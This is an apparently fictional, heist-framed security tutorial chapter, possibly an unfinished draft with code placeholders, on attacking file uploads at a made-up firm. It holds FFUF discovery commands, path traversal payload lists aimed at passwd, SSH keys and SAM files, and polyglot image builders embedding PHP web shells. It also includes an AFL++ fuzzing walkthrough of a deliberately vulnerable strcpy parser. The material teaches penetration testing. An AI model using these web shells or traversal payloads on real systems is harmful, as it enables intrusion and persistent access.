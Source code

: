 = Chapter 4: Digital Dead Drops - File Upload Exploitation
:pp: {plus}{plus}

_"Sometimes the best way into a castle is to be invited as a trojan horse."_

'''

Your systematic infiltration of Castle Securities continues. Through reconnaissance and authentication bypass, you've gained access to their research portal where algorithm development happens. Each phase of the heist has revealed new attack surfaces and built your professional toolkit with industry-standard security assessment tools.

Exploring the authenticated research interface reveals document upload functionality--researchers share analysis reports, data files, and algorithm documentation with the development team. This file processing infrastructure represents a perfect target for systematic security testing using professional file upload assessment methodology.

Upload a simple test file to understand the workflow:

----
"Research document uploaded successfully. Processing pipeline initiated."
Your file: test.txt → Processing queue → Virus scan → Content analysis → Storage
----

The upload triggers connections to multiple backend systems, launching a processing workflow across file validation, content analysis, and integration systems. These file processing pipelines represent complex attack surfaces that professional security teams systematically evaluate using specialized tools and methodology.

'''

== What You'll Learn in This Chapter

This chapter teaches professional file upload security testing using industry-standard tools and methodology that apply to any modern web application assessment:

*Professional Tool Mastery:*

* *FFUF* for systematic upload endpoint and parameter discovery
* *AFL{pp}* for coverage-guided binary vulnerability discovery
* *Professional integration* combining HTTP parameter testing with binary content analysis

*Core Skills Developed:*

* Systematic file upload attack surface mapping and endpoint discovery
* Path traversal exploitation through filename manipulation and encoding bypass
* Binary file format fuzzing for memory corruption vulnerability discovery
* Professional assessment methodology integrating multiple attack vectors

*Real-World Application:*
These skills transfer directly to professional security assessment roles where file upload testing is a standard component of web application security evaluations. The systematic methodology and tool proficiency demonstrated here represent exactly what employers expect from professional security consultants.

*Prerequisites:*

* Basic HTTP and web application understanding
* Command-line proficiency and tool installation capability
* Optional: Authentication access methodology from Chapter 2 provides useful context

*Professional Context:*
File upload vulnerabilities consistently rank among the most critical web application security issues. Professional security teams use systematic methodology combining endpoint discovery, parameter manipulation, and binary content analysis to achieve comprehensive file processing security assessment.

'''

== Understanding File Upload Systems as Fuzzing Targets

File upload systems differ from simple web forms because they process both metadata (filenames, MIME types, headers) and binary content through complex validation pipelines. Professional file upload security assessment requires understanding these systems as complete attack surfaces rather than isolated upload mechanisms.

Modern file upload systems implement multiple security layers:

*Upload Endpoint Security*: Applications often have multiple file upload endpoints with different validation rules, access controls, and processing workflows. Systematic discovery reveals the complete upload attack surface.

*Parameter Processing*: File upload forms accept numerous parameters beyond the file itself--category selections, description fields, processing options, and hidden administrative controls that systematic parameter testing can discover.

*Filename Validation*: Upload systems process filenames as input that affects file storage location, processing logic, and system integration. Professional filename manipulation can achieve file system access and code execution.

*Content Processing*: Uploaded files are parsed by format-specific libraries (PDF readers, image processors, document converters) that may contain memory corruption vulnerabilities discoverable through systematic binary fuzzing.

*Processing Pipeline Integration*: File uploads trigger workflows across multiple backend systems including virus scanning, content analysis, format conversion, and database integration. Each step creates potential attack surfaces.

=== File Upload Security Assessment vs. Basic Web Testing

Professional file upload assessment extends beyond basic parameter testing to include systematic attack surface analysis:

*Traditional Web Testing:*

----
Form Field Testing: Parameter injection in text fields
Basic Validation: Extension and MIME type restriction bypass
Manual Upload: Individual file upload with malicious content
----

*Professional File Upload Assessment:*

----
Systematic Discovery: FFUF-based endpoint and parameter enumeration
Filename Exploitation: Path traversal and validation bypass testing
Binary Content Analysis: AFL++ coverage-guided vulnerability discovery
Integration Testing: Multi-stage attack coordination across processing pipeline
----

The professional approach provides comprehensive coverage that individual testing approaches cannot achieve while building tool proficiency that transfers to any security assessment engagement.

=== Attack Surface Analysis for File Processing Systems

Professional file upload assessment targets multiple attack surfaces through systematic methodology:

*Upload Mechanism Discovery*: Applications implement file upload functionality through various endpoints including primary upload forms, API interfaces, administrative functions, and legacy processing systems that systematic discovery can reveal.

*Parameter-Based Controls*: File upload systems often accept hidden parameters that control processing behavior, storage location, administrative functionality, and workflow execution that parameter fuzzing can discover and exploit.

*Filename Processing Vulnerabilities*: Upload systems process filenames through multiple validation layers that systematic manipulation can bypass to achieve path traversal, script execution, and file system access.

*Binary Format Parsing*: File content processing involves format-specific parsers that systematic binary fuzzing can test for memory corruption vulnerabilities that enable code execution and system compromise.

Understanding these attack surfaces enables systematic assessment methodology that addresses complete file processing security rather than isolated upload functionality.

'''

== FFUF for Systematic Upload Discovery and Parameter Testing

Professional file upload assessment begins with systematic discovery using FFUF to identify all upload endpoints, hidden parameters, and processing controls. This discovery phase establishes the complete attack surface before launching targeted exploitation.

=== Upload Endpoint Discovery Through Professional Methodology

File upload functionality often exists at multiple endpoints with different security controls and processing workflows. Systematic endpoint discovery reveals the complete upload infrastructure for comprehensive security assessment.

[PLACEHOLDER:CODE Name: FFUF File Upload Endpoint Discovery System. Purpose: Uses FFUF to systematically discover file upload endpoints including primary interfaces, API endpoints, administrative uploads, and legacy processing systems. Configures FFUF with upload-specific wordlists and response analysis for comprehensive endpoint enumeration. Input: Target application URLs, authentication credentials, upload-specific wordlist collections. Output: Complete upload endpoint inventory with access control analysis and processing workflow identification. Lines: 30-40. Tools: FFUF endpoint discovery configuration, upload-specific wordlist generation, HTTP method testing, response analysis for upload functionality detection.]

FFUF upload endpoint discovery requires specialized configuration and wordlist selection:

[,bash]
----
# Systematic upload endpoint discovery with authentication
ffuf -w upload_endpoints.txt \
     -u https://research.castle-securities.com/FUZZ \
     -H "Authorization: Bearer your_auth_token" \
     -mc 200,301,302,405,413 \
     -fc 404 \
     -o upload_endpoints.json \
     -of json \
     -rate 50 \
     -t 10
----

*Upload-Specific Wordlist Strategy:*

----
Primary Upload Paths:
upload, uploads, files, documents, media, attachments, submit

API Upload Endpoints:
api/files, api/upload, api/documents, api/media, api/attachments

Administrative Upload Interfaces:
admin/upload, admin/files, management/documents, control/media

Development and Testing:
dev/upload, test/files, staging/documents, internal/media

Legacy and Backup Systems:
old/upload.php, backup/files, legacy/documents, archive/media
----

Your systematic discovery reveals Castle Securities' complete file upload infrastructure:

----
Production Endpoints:
/research/upload - Main document upload (researcher authentication)
/api/v1/files - RESTful file upload (API token authentication)
/documents/submit - Document submission (form-based upload)

Administrative Endpoints:
/admin/documents - Administrative file management (elevated privileges)
/management/files - File system management (system administrator access)

Development and Legacy:
/dev/upload - Development upload interface (minimal validation)
/test/files - Testing file upload (accepts all file types)
/legacy/submit.php - Legacy PHP upload (outdated security controls)
----

Each endpoint represents different validation rules, processing workflows, and security controls that create distinct testing opportunities and attack surfaces.

=== Upload Parameter Discovery and Hidden Control Testing

File upload forms often accept hidden parameters that control processing logic, storage location, administrative functionality, and workflow execution. Professional parameter discovery reveals these hidden controls for systematic security testing.

[PLACEHOLDER:CODE Name: FFUF Upload Parameter Discovery with Multipart Form Testing. Purpose: Systematically tests discovered upload endpoints for hidden parameters including processing controls, administrative functions, storage manipulation, and workflow configuration options. Uses FFUF multipart form testing to identify parameter acceptance and processing behavior. Input: Discovered upload endpoints, parameter-specific wordlists, authentication contexts, base upload request templates. Output: Hidden parameter inventory with functionality analysis and security control identification. Lines: 35-45. Tools: FFUF multipart form parameter testing, parameter wordlist optimization, response pattern analysis, processing control discovery.]

Upload parameter discovery requires testing parameters within multipart form data contexts:

[,bash]
----
# Hidden parameter discovery in file upload forms
ffuf -w upload_parameters.txt \
     -u https://research.castle-securities.com/research/upload \
     -X POST \
     -H "Content-Type: multipart/form-data" \
     -H "Authorization: Bearer token" \
     -d 'document=@test.txt&FUZZ=true' \
     -mc 200,302,400,422 \
     -fc 403,404 \
     -o upload_params.json
----

*Upload Parameter Wordlist Categories:*

----
Processing Control Parameters:
process, analyze, convert, extract, validate, bypass, skip

Administrative Control Parameters:
admin, administrator, debug, internal, system, elevated, override

Storage Location Parameters:
path, directory, folder, destination, location, storage, root

Access Control Parameters:
role, privilege, access, permission, level, user, account

Workflow Configuration:
workflow, pipeline, stage, step, queue, priority, immediate
----

Your systematic parameter discovery reveals significant upload control capabilities:

----
Processing Control Discovery:
process=false - Bypasses file processing pipeline entirely
debug=true - Returns detailed processing information and error details
admin_mode=1 - Enables administrative processing features and capabilities

Storage Location Control:
path=../../../var/www/html/ - Controls file storage location directly
destination=public - Makes uploaded files publicly accessible via web
directory=admin - Stores files in administrative directory structure

Access and Privilege Control:
role=administrator - Processes files with elevated system privileges
bypass_validation=true - Skips security validation and content filtering
elevated_access=1 - Grants full processing and storage capabilities
----

These hidden parameters provide significant control over file upload processing behavior, creating opportunities for privilege escalation, validation bypass, and file system manipulation.

'''

== Systematic Path Traversal and Filename Exploitation

Filename manipulation represents one of the most reliable file upload attack vectors because filenames are processed by multiple system components with varying validation approaches. Professional filename exploitation achieves file system access and code execution through systematic testing methodology.

=== Path Traversal Through Systematic Filename Testing

Path traversal attacks control file storage location through filename manipulation, potentially achieving file writes to system directories, web-accessible locations, or executable paths. Professional path traversal testing uses systematic payload generation and encoding techniques.

[PLACEHOLDER:CODE Name: Systematic Path Traversal Payload Generator and Testing Framework. Purpose: Generates comprehensive filename-based path traversal payloads with multiple encoding variations and systematically tests them against discovered upload endpoints. Includes cross-platform targeting and validation bypass techniques. Input: Target upload endpoints, file system path intelligence, encoding variation parameters, success verification methods. Output: Working path traversal payloads with successful file write verification and access path confirmation. Lines: 35-45. Tools: Path traversal payload generation, filename encoding variations, cross-platform path testing, file write verification.]

Professional path traversal testing requires systematic payload generation and testing methodology:

*Basic Path Traversal Pattern Generation:*

[,python]
----
# Systematic path traversal payload creation
base_traversal_patterns = [
    "../../../etc/passwd",
    "....//....//....//etc//passwd",
    "..%2f..%2f..%2fetc%2fpasswd",
    "%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd"
]

# Cross-platform targeting
unix_system_targets = [
    "../../../etc/passwd",
    "../../../var/www/html/shell.txt",
    "../../../home/user/.ssh/authorized_keys",
    "../../../opt/application/config/database.conf"
]

windows_system_targets = [
    "..\\..\\..\\windows\\system32\\config\\sam",
    "..\\..\\..\\inetpub\\wwwroot\\shell.aspx",
    "..\\..\\..\\program files\\application\\config.ini"
]
----

*Encoding and Bypass Technique Implementation:*

[,python]
----
# Multiple encoding variations for security control bypass
encoding_bypass_techniques = [
    "../../../etc/passwd",                           # Basic traversal
    "%2e%2e%2f%2e%2e%2f%2e%2e%2fetc%2fpasswd",      # URL encoding
    "%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd", # Double encoding
    "..%c0%af..%c0%af..%c0%afetc%c0%afpasswd",      # UTF-8 overlong encoding
    "..%ef%bc%8f..%ef%bc%8f..%ef%bc%8fetc%ef%bc%8fpasswd"         # Unicode normalization
]
----

*Web Application Specific Targeting:*

[,python]
----
# Target web-accessible directories for code execution
web_application_targets = [
    "../../../var/www/html/research/shell.php",
    "../../../opt/castle/public/backdoor.py",
    "../../../usr/share/nginx/html/access.jsp",
    "../../../home/castle/public_html/cmd.aspx"
]
----

Testing systematic path traversal against Castle Securities achieves file system access:

[,bash]
----
# Successful path traversal results
Upload: filename="../../../var/www/html/research/test.txt"
Result: File written to web-accessible location
Access: https://research.castle-securities.com/research/test.txt

Upload: filename="../../../opt/castle/logs/traversal.log"
Result: File written to application log directory
Impact: Log injection and system information disclosure

Upload: filename="../../../tmp/upload_test.txt"
Result: File written to temporary directory
Impact: Confirmed file system write access for exploitation
----

The systematic path traversal approach achieves reliable file system access that enables persistent access establishment and code execution.

=== Script Upload and Execution Through Validation Bypass

File upload systems implement file type restrictions through various validation mechanisms that systematic testing can bypass to achieve script upload and code execution. Professional validation bypass uses systematic technique testing and polyglot file creation.

[PLACEHOLDER:CODE Name: File Type Validation Bypass and Script Upload Testing Framework. Purpose: Systematically tests file type validation mechanisms through extension manipulation, MIME type spoofing, and content analysis bypass. Generates executable script payloads that bypass validation controls and achieve code execution. Input: Upload endpoints with validation, script payload templates, bypass technique libraries, execution verification methods. Output: Working validation bypass techniques with confirmed code execution and persistent access establishment. Lines: 30-40. Tools: File extension manipulation, MIME type testing, polyglot file creation, script payload generation, execution verification.]

Professional script upload bypass requires systematic validation mechanism testing:

*File Extension Bypass Testing:*

[,python]
----
# Systematic extension bypass technique testing
extension_bypass_methods = [
    "shell.php",              # Direct script extension
    "shell.php.txt",          # Double extension bypass
    "shell.txt.php",          # Extension order confusion
    "shell.php%00.txt",       # Null byte injection
    "shell.php;.txt",         # Semicolon delimiter bypass
    "shell.pHp",              # Case variation bypass
]

# Content-Type header manipulation
content_type_spoofing = [
    {"filename": "shell.php", "content_type": "text/plain"},
    {"filename": "shell.php", "content_type": "image/jpeg"},
    {"filename": "script.txt", "content_type": "application/x-php"},
]
----

*Polyglot File Creation for Validation Bypass:*

[,python]
----
# Create files valid as multiple formats
def create_image_script_polyglot():
    # GIF header + embedded script payload
    gif_header = b"GIF89a\x01\x00\x01\x00\x00\x00\x00\x21\xf9\x04\x01\x00\x00\x00\x00"
    php_payload = b"<?php system($_GET['cmd']); ?>"
    return gif_header + php_payload

def create_jpeg_script_polyglot():
    # JPEG header + script payload embedding
    jpeg_header = b"\xff\xd8\xff\xe0\x00\x10JFIF\x00\x01\x01\x01\x00H\x00H\x00\x00\xff\xdb"
    script_payload = b"<?php eval($_POST['code']); ?>"
    return jpeg_header + script_payload
----

Your systematic validation bypass testing achieves code execution:

----
Successful Bypass Techniques:
Method: shell.php.txt with Content-Type: text/plain
Result: Bypasses extension filtering, accessible at /uploads/shell.php.txt
Execution: https://research.castle-securities.com/uploads/shell.php.txt?cmd=whoami
Response: castle_research_user

Method: polyglot.gif with embedded PHP payload
Result: Passes image validation, executes as PHP when accessed directly
Path: /var/www/html/research/polyglot.gif (via path traversal)
Execution: Direct PHP interpretation with system command capability

Combined Impact:
- Reliable code execution through multiple bypass methods
- Persistent access establishment through web-accessible script deployment
- File system access enabling lateral movement and data extraction
----

The combination of path traversal and validation bypass provides multiple reliable pathways to code execution and persistent system access.

'''

== AFL{pp} Binary File Format Fuzzing for Memory Corruption Discovery

File processing systems parse uploaded binary content using format-specific libraries that may contain memory corruption vulnerabilities. AFL{pp} provides systematic binary fuzzing capabilities for discovering these vulnerabilities through coverage-guided testing methodology.

=== AFL{pp} Setup and Binary Fuzzing Fundamentals

AFL{pp} represents the evolution of binary vulnerability discovery from manual analysis to systematic coverage-guided testing. Professional AFL{pp} usage enables discovery of memory corruption vulnerabilities that traditional testing approaches cannot find.

[PLACEHOLDER:CODE Name: AFL{pp} Installation, Configuration, and Binary Fuzzing Campaign Setup. Purpose: Demonstrates AFL{pp} installation, source code compilation with instrumentation, and systematic fuzzing campaign configuration for file format vulnerability discovery. Shows professional binary testing methodology. Input: Target source code or binary, seed file collection, fuzzing configuration parameters, system resource allocation. Output: AFL{pp} fuzzing campaign with crash detection, coverage analysis, and vulnerability discovery reporting. Lines: 40-50. Tools: AFL{pp} installation and configuration, source code compilation with instrumentation, fuzzing campaign management, crash analysis integration.]

AFL{pp} installation and professional configuration for binary vulnerability discovery:

*AFL{pp} Installation and Verification:*

[,bash]
----
# Install AFL++ with complete feature set
git clone https://github.com/AFLplusplus/AFLplusplus
cd AFLplusplus
make distrib
sudo make install

# Verify installation and available features
afl-clang-fast --version
afl-fuzz --version
afl-whatsup --help
----

*Target Compilation with Instrumentation:*

[,bash]
----
# Configure environment for AFL++ instrumentation
export CC=afl-clang-fast
export CXX=afl-clang-fast++

# Compile with debugging symbols and AddressSanitizer
afl-clang-fast -g -O0 -fsanitize=address avatar_parser.c -o avatar_parser_fuzz

# Create comprehensive test harness for file input processing
afl-clang-fast -g -O0 -fsanitize=address test_harness.c avatar_parser.c -o fuzz_target
----

*Fuzzing Campaign Setup and Management:*

[,bash]
----
# Create organized directory structure for fuzzing campaign
mkdir -p castle_fuzzing/{input_seeds,output_findings,crash_analysis}

# Generate minimal seed files for effective mutation starting points
echo "GIF89a" > castle_fuzzing/input_seeds/minimal.gif
cp valid_samples/*.gif castle_fuzzing/input_seeds/

# Launch systematic fuzzing campaign with professional configuration
afl-fuzz -i castle_fuzzing/input_seeds \
         -o castle_fuzzing/output_findings \
         -m none \
         -t 1000+ \
         ./fuzz_target @@
----

AFL{pp} provides systematic vulnerability discovery through intelligent mutation that manual testing cannot achieve, using coverage feedback to guide testing toward unexplored code paths where vulnerabilities often exist.

=== Castle Securities Avatar Processing Binary Vulnerability Discovery

Your file upload testing revealed that Castle Securities processes uploaded images through a custom avatar parsing library. This library represents an ideal AFL{pp} target for systematic memory corruption vulnerability discovery.

[PLACEHOLDER:CODE Name: AFL{pp} GIF Comment Parsing Vulnerability Discovery Campaign. Purpose: Implements targeted AFL{pp} fuzzing campaign against Castle Securities' avatar processing library focusing on GIF comment parsing buffer overflow discovery. Includes systematic seed generation, crash analysis, and vulnerability validation methodology. Input: Avatar processing library source code, GIF format specifications, comment field test variations, crash analysis tools. Output: Buffer overflow vulnerability discovery with reproducible crash conditions and security impact assessment. Lines: 35-45. Tools: AFL{pp} GIF format fuzzing, systematic seed file generation, crash reproduction analysis, AddressSanitizer integration, vulnerability impact assessment.]

The avatar processing library vulnerability demonstrates AFL{pp} effectiveness for real-world binary security testing:

*Target Vulnerability Analysis:*

[,c]
----
// avatar_parser.c - Classic buffer overflow vulnerability
void parse_gif_comment(char *comment_data, int length) {
    char buffer[100];  // Fixed-size stack buffer
    strcpy(buffer, comment_data);  // No bounds checking - vulnerability!

    // Process comment for metadata extraction
    if (strlen(buffer) > 0) {
        extract_metadata(buffer);
    }
}
----

*Systematic GIF Seed File Generation:*

[,python]
----
# Create GIF files with varying comment field sizes for AFL++ mutation
def create_gif_comment_seed(comment_text):
    # Standard GIF header structure
    gif_header = b"GIF89a\x01\x00\x01\x00\x00\x00\x00"

    # Comment extension block construction
    comment_extension = b"\x21\xfe"  # Comment extension introducer
    comment_length = bytes([len(comment_text)])  # Comment data length
    comment_data = comment_text.encode('utf-8')  # Comment content
    block_terminator = b"\x00"  # Extension block terminator

    # Complete GIF file with comment
    gif_trailer = b"\x3b"  # GIF file trailer
    return gif_header + comment_extension + comment_length + comment_data + block_terminator + gif_trailer

# Generate seed collection with strategic comment sizes
seed_variations = [
    create_gif_comment_seed("test"),           # 4 bytes - minimal comment
    create_gif_comment_seed("A" * 50),         # 50 bytes - moderate size
    create_gif_comment_seed("B" * 99),         # 99 bytes - near buffer limit
    create_gif_comment_seed("C" * 100),        # 100 bytes - exact buffer size
    create_gif_comment_seed("D" * 150),        # 150 bytes - overflow trigger
]
----

*AFL{pp} Campaign Execution and Monitoring:*

[,bash]
----
# Execute systematic fuzzing campaign with monitoring
afl-fuzz -i castle_fuzzing/gif_seeds \
         -o castle_fuzzing/findings \
         -m none \
         -t 5000+ \
         ./avatar_parser_fuzz @@

# Monitor fuzzing progress and effectiveness
watch 'afl-whatsup castle_fuzzing/findings/'

# Analyze discovered crashes when found
ls castle_fuzzing/findings/default/crashes/
file castle_fuzzing/findings/default/crashes/*
----

Your AFL{pp} campaign systematically discovers the buffer overflow vulnerability:

----
AFL++ Fuzzing Results (4 Hours):
Total Executions: 4,239,847
Execution Speed: 1,247 execs/sec
Unique Crashes: 12
Code Coverage: 84.7% of instrumented target
Crash Classification: Stack buffer overflow in parse_gif_comment()

Vulnerability Confirmation:
Trigger Input: GIF file with 150-byte comment field
Crash Type: Segmentation fault in strcpy() operation
Root Cause: Stack buffer overflow (150 bytes written to 100-byte buffer)
Security Impact: Stack corruption enables potential code execution
AddressSanitizer: WRITE of size 150 at stack offset 132 (100-byte buffer boundary)
----

The AFL{pp} discovery provides systematic vulnerability validation with reproducible crash conditions and clear security impact assessment.

=== Crash Analysis and Vulnerability Impact Assessment

AFL{pp} discovers crashes that require systematic analysis to determine root causes, security impact, and practical exploitability. Professional vulnerability assessment combines automated discovery with expert analysis.

[PLACEHOLDER:CODE Name: AFL{pp} Crash Analysis and Vulnerability Validation Framework. Purpose: Systematically analyzes AFL{pp} crash discoveries to determine root causes, classify vulnerability types, and assess security impact and exploitability. Integrates GDB debugging and AddressSanitizer analysis for comprehensive crash investigation. Input: AFL{pp} crash files, instrumented target binary, debugging tools, vulnerability classification frameworks. Output: Comprehensive vulnerability assessment with root cause analysis, impact classification, and exploitability evaluation. Lines: 30-40. Tools: GDB crash analysis and debugging, AddressSanitizer output interpretation, vulnerability classification systems, security impact assessment.]

Professional crash analysis validates AFL{pp} discoveries through systematic investigation:

*Crash Reproduction and Root Cause Analysis:*

[,bash]
----
# Systematic crash reproduction with debugging tools
gdb ./avatar_parser_fuzz
(gdb) run castle_fuzzing/findings/default/crashes/id:000000,sig:11,src:000127,op:havoc,rep:64

# Comprehensive crash analysis
(gdb) bt full                    # Complete stack trace with variables
(gdb) info registers            # CPU register state at crash
(gdb) x/32wx $rsp              # Stack memory content examination
(gdb) disas parse_gif_comment  # Assembly code analysis
----

*AddressSanitizer Detailed Analysis:*

----
==12345==ERROR: AddressSanitizer: stack-buffer-overflow on address 0x7fff8c3d4678
WRITE of size 150 at 0x7fff8c3d4678 thread T0
    #0 0x555555555234 in parse_gif_comment avatar_parser.c:45:5
    #1 0x555555555456 in process_gif_file avatar_parser.c:78:9
    #2 0x555555555678 in main test_harness.c:23:12

Address 0x7fff8c3d4678 is located in stack of thread T0 at offset 132 in frame
    #0 0x555555555200 in parse_gif_comment avatar_parser.c:42

  This frame has 1 object(s):
    [32, 132) 'buffer' (line 43) <-- 150 bytes written to 100-byte buffer (overflow of 50 bytes)
----

*Professional Vulnerability Impact Assessment:*

----
Vulnerability Classification: CWE-121 Stack-based Buffer Overflow
CVSS 3.1 Score: 8.8 (High) - Network attackable, no authentication required
Exploitability Assessment: High - Stack corruption with controlled input
Business Impact: Critical - Affects all uploaded image processing
Attack Vector: Malicious GIF file upload with oversized comment field
Affected Component: Custom avatar processing library (Castle Securities proprietary code)
Remediation Priority: Immediate - Memory corruption with code execution potential
----

The systematic crash analysis confirms a critical vulnerability with clear exploitation potential and significant business impact requiring immediate remediation.

'''

== Professional File Upload Security Assessment Methodology

Individual file upload vulnerabilities provide valuable access, but professional security assessment requires systematic methodology that evaluates file processing security within broader application architecture and business risk frameworks.

=== Integrated File Upload Testing Framework

Professional file upload assessment requires understanding file processing systems as complete business security controls rather than isolated technical components requiring systematic evaluation across multiple attack vectors.

[PLACEHOLDER:CODE Name: Comprehensive File Upload Security Assessment Framework. Purpose: Integrates FFUF endpoint discovery, parameter manipulation testing, path traversal exploitation, and AFL{pp} binary vulnerability discovery into systematic methodology for complete file upload security evaluation. Input: Target application architecture, authentication contexts, business process analysis, file processing workflow intelligence. Output: Complete file upload security assessment with integrated vulnerability analysis, business impact evaluation, and professional remediation guidance. Lines: 45-55. Tools: Multi-vector file upload assessment coordination, vulnerability correlation analysis, business impact assessment frameworks, professional security reporting.]

Comprehensive file upload assessment systematically evaluates multiple security dimensions:

*Upload Infrastructure Security Assessment*: Systematic endpoint discovery using FFUF reveals complete upload attack surface including primary interfaces, administrative functions, API endpoints, and legacy systems with comprehensive parameter manipulation testing.

*Filename Processing Security Evaluation*: Professional path traversal testing combined with validation bypass techniques provides systematic evaluation of filename handling security across multiple encoding methods and target system types.

*Binary Content Processing Security Analysis*: AFL{pp} coverage-guided fuzzing discovers memory corruption vulnerabilities in file format parsing libraries while providing systematic crash analysis and vulnerability validation.

*Business Logic Integration Assessment*: File processing workflow analysis evaluates security controls within broader business processes including access control inheritance, administrative functionality, and system integration security.

This comprehensive approach ensures complete file upload security evaluation addressing both technical vulnerabilities and business risk across integrated file processing infrastructure.

=== Multi-Vector Integration and Sustained Access

File upload vulnerabilities integrate with authentication bypass and other access vectors to create comprehensive system compromise capabilities enabling sustained access and systematic data extraction.

[PLACEHOLDER:CODE Name: File Upload Integration with Multi-Vector Security Assessment. Purpose: Demonstrates integration of file upload vulnerabilities with authentication access and other security vectors to create comprehensive system compromise and sustained access capabilities. Input: File upload vulnerabilities, authentication bypass capabilities, system access intelligence, lateral movement opportunities. Output: Multi-vector attack integration providing comprehensive system access and sustained compromise capabilities with data extraction frameworks. Lines: 35-45. Tools: Multi-vector integration analysis, system compromise validation, lateral movement assessment, sustained access establishment, data extraction coordination.]

Professional security assessment demonstrates how file upload access integrates with other vectors:

*Authentication + File Upload Integration*: Authenticated file upload access combined with path traversal enables persistent system access through script deployment, configuration modification, and administrative file manipulation.

*Parameter Discovery + Binary Exploitation Integration*: Hidden parameter discovery enhances binary vulnerability exploitation by controlling processing workflows, bypassing security controls, and directing vulnerable file processing to achieve system compromise.

*File System Access + Data Extraction Integration*: File upload compromise provides file system access enabling systematic data extraction, configuration harvesting, and credential discovery for lateral movement across organizational infrastructure.

*Professional Persistence Establishment*: File processing access creates reliable persistence mechanisms through web shell deployment, configuration modification, and processing pipeline manipulation that survive system updates and security patches.

Your integrated assessment demonstrates that file upload security represents a critical control point affecting overall organizational security posture requiring comprehensive professional evaluation.

'''

== What You've Mastered and Professional Application

